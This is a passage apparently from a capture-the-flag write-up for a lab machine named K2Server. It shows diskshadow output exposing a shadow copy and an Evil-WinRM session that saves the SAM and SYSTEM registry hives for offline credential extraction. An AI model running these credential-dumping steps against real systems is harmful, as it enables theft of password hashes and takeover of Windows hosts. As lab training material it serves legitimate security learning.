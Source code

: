 Querying all shadow copies with the shadow copy set ID {2e66f56a-3074-4905-acbd-4323b521ff16}

	* Shadow copy ID = {f85d9909-865a-4116-85de-f8b1ba78e488}		%priv%
		- Shadow copy set: {2e66f56a-3074-4905-acbd-4323b521ff16}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{19127295-0000-0000-0000-100000000000}\ [C:\]
		- Creation time: 9/29/2025 11:11:22 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: K2Server.k2.thm
		- Service machine: K2Server.k2.thm
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %priv% z:
-> %priv% = {f85d9909-865a-4116-85de-f8b1ba78e488}
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\Temp> dir


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/29/2025  11:11 PM            612 2025-09-29_23-11-22_K2SERVER.cab












*Evil-WinRM* PS C:\Users\j.smith\Desktop> reg save hklm\system C:\Users\j.smith\Desktop\system.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\j.smith\Desktop> reg save hklm\sam C:\Users\j.smith\Desktop\sam.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\j.smith\Desktop> dir


    Directory: C:\Users\j.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        9/29/2025  11:13 PM          53248 sam.bak
-a----        9/29/2025  11:13 PM       17244160 system.bak
-a----        5/29/2023  11:01 PM             38 user.txt



<img width="1216" height="382" alt="image" src="https://github.com/user-attachments/assets/5e933311-6046-44bd-a3dc-1089897aba27" />
